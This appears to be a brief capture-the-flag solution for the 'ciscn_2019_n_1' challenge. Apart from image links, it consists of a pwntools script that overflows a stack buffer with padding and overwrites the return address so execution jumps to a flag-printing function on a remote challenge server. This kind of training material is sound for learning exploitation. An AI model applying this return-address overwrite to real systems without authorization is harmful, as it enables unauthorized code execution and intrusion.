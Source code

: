 ![alt text](image.png)
![alt text](image-2.png)
![alt text](image-1.png)

```python 
from pwn import *
# io = process('/home/mykali/pwn/ciscn_2019_n_1')
io = remote('node5.buuoj.cn', 27706)
padding = 0x30 + 8
cat_addr = 0x004006BE

payload = b'a' * padding + p64(cat_addr)

io.sendline(payload)
io.interactive()

```

![alt text](image-4.png)
![alt text](image-5.png)